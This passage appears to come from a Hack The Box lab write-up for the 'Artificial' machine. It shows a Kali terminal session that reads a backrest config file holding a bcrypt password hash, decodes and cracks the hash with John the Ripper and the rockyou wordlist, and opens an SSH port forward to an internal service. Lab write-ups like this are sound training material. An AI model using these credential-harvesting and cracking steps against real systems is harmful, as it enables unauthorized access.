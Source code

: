 We open the `config.json` file:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/…/Artificial/backrest/.config/backrest]
└─$ cat config.json 
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "{{REDACTED_PASSWD}}"
      }
    ]
  }
}
```

We [Base64](../../../3%20-%20Tags/Hacking%20Concepts/Base64.md) decode the password:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Artificial/backrest]
└─$ nano hash.txt                                                                                                   
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Artificial/backrest]
└─$ cat hash.txt | base64 -d  
{{REDACTED_PASSWD}}
```

Now we can use [JohnTheRipper](../../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) to crack the `bcrypt` format:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Artificial/backrest]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

{{REDACTED_PASSWD}}    (?)     

1g 0:00:00:20 DONE (2025-08-25 13:38) 0.04812g/s 259.8p/s 259.8c/s 259.8C/s techno..huevos
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We transfer out port 9898:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Artificial/backrest]
└─$ ssh gael@artificial.htb -L 9898:127.0.0.1:9898 
gael@artificial.htb's password: 
```
